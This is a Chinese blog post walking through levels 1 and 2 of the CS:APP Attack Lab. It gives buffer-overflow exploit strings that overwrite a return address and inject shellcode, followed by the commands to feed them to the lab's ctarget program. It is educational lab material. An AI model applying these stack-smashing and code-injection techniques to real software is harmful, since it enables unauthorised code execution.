

[图文并茂-超详解 CS:APP: Lab3-Attack（附带栈帧分析) - 周小伦 - 博客园 (cnblogs.com)](https://www.cnblogs.com/JayL-zxl/p/14361158.html)

[【读厚 CSAPP】III Attack Lab | 小土刀 2.0 (wdxtub.com)](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)

## Level 1

### 题目


这一关中我们暂时还不需要注入新的代码，只需要让程序重定向调用某个方法就好。`ctarget` 的正常流程是

```c
void test() {
    int val;
    val = getbuf();
    printf("NO explit. Getbuf returned 0x%x\n", val);
}
```

我们要做的是调用程序中的另一个函数

```c
void touch1() {
    vlevel = 1;
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```


也就是在 `getbuf()` 函数返回的时候，执行 `touch1()` 而不是返回 `test()`。下面是一些建议：

- 本关所需要的所有信息都可以在 `ctarget` 的汇编代码中找到
- 具体要做的是把 `touch1` 的开始地址放到 `ret` 指令的返回地址中
- 注意字节的顺序
- 可以用 gdb 在 `getbuf` 的最后几条指令设置断点，来看程序有没有完成所需的功能
- 具体 `buf` 在栈帧中的位置是由 `BUFFER_SIZE` 决定的，需要仔细察看来进行判断


### 解题

首先是反编译成汇编代码：`objdump -d ctarget > ctarget.txt`


`test`函数如下：


其实test并不重要，我们需要看的是getbuf.


`getbuf`函数如下：


可以看到这里把 `%rsp` 减少了 `0x28`(40) 位，最后再加上一个`0x28`，也就是说，我们的缓冲区有 `40` 个字节，这个缓冲区上面的就是返回地址，我们要做的就是利用缓冲区溢出把这个返回地址改掉。


ok，其实我们只需要在第41~48字节的这个返回地址中插入touch1函数的地址即可，于是我们继续搜素，来看看 `touch1` 在哪里：




可以看到地址在 `0x4017c0` 这里，于是我们需要输入的字符串就可以是这样：

`p1.txt`

```assembly
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

接着我们把这个字符文件转换成字节码 `./hex2raw < p1.txt > p1r.txt`

最后执行一下 `./ctarget -q < p1r.txt`，就可以看到结果了：


从第一关我们就学到了如何利用缓冲区来调用另外的过程，接下来我们来看第二关。


## Level 2

### 题目


第二关中需要插入一小段代码，来完成字符串漏洞攻击

本题的任务就是要我们在`getbuf`之后直接`ret`到`touch2`里面而不是继续执行`test`.（注意，此题的`test`和第一题的test是不一样的，这个test的地址我们需要用gdb去弄出来）

`cmu`的官方文档又给了我们一些建议

- `touch2`的参数`val`是利用`rdi`寄存器进行传递的
- 你要利用某种方式让`getbuf`的返回地址为`touch2`的地址
- 你的注入代码的传入参数应该等于`cookie`的值。
- 不要在注入代码内调用`ret`或者`call`
- 请参见附录B中有关如何使用工具生成字节级表示形式的指令序列的讨论。

`ctarget` 中的 `touch2` 函数的 C 语言如下：

```c
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

我们再来看看`touch2`的反汇编吧：


其实touch2的逻辑非常简单。就是比较我们传入的参数`val`是否等于`cookie`的值。如果等于就可以通过。所以本题的关键就是在改变返回地址前也设置`rdi`寄存器的值。

因此我们可以很容易的想到我们要插入的汇编代码是什么

```assembly
movq    $0x59b997fa, %rdi	#cookie的值是题目所给(在第一题的结果中)
pushq   0x4017ec	# touch2的首地址入栈,那么ret就去touch2去执行
ret
```

我们把上面的汇编代码写进`l2.s`

执行`gcc -c l2.s`，产生`l2.o`


我们继续看一下`getbuf`的汇编代码：


那么现在问题来了，我们要如何才能让机器开始执行这几行代码呢？简单，利用第一阶段的方式，跳转到缓冲区所在的位置即可，那么问题又来了，缓冲区的位置在哪里呢？这个就需要实际跑一次程序，用 gdb 查看了。

`gdb ctarget:`


我们发现`rsp`的地址为`0x5561dc78` 是不是有点想法可以开始写了。

我们可以让执行完`getbuf`之后回到`rsp`的这里。然后把我们要执行的三行汇编代码执行。就可以成功执行`touch2`了。这样我们的输入流就如下图。

```c
48 c7 c7 fa 97 b9 59 68 <-读入我们要执行的汇编语句:48 c7 c7 fa 97 b9 59 ff 34 25 ec 17 40 00 c3
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 <-返回地址为rsp:0x5561dc78
```

上面的这些数字写入`touch2.txt`

执行：`./hex2raw < touch2.txt | ./ctarget -q`


我们最后再分析一下，如下图


> 我们getbuf之后，执行ret指令时，由于rsp指向地址的为这40字节的底部，这里存着我们注入的代码，这段代码去调用我们的touch2，就成功啦！！


## Level 3

感觉其实也没有多大意思，就是对返回地址做各种hack，先做到这吧，以后有兴趣再回来做.